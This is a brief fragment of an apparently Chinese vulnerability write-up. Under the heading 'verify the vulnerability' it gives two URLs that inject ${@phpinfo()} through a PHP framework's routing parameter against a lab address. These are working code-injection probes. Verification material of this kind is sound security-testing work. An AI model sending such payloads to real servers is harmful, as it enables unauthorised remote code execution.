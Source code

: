  [![img](assets/1696730457881-75f3b8db-3de0-4c77-bafc-da2dcf29d84f.png)](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224202959957-781239462.png)



[![img](assets/1696730457906-42d528b7-1037-43cd-8212-39b1b43080af.png)](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203010189-667902804.png)

#### 验证漏洞

```plain
http://192.168.1.21:8080/index.php?s=/index/index/name/${@phpinfo()}
http://192.168.1.21:8080/index.php?s=/index/index/name/$%7B@phpinfo()%7D)}
```
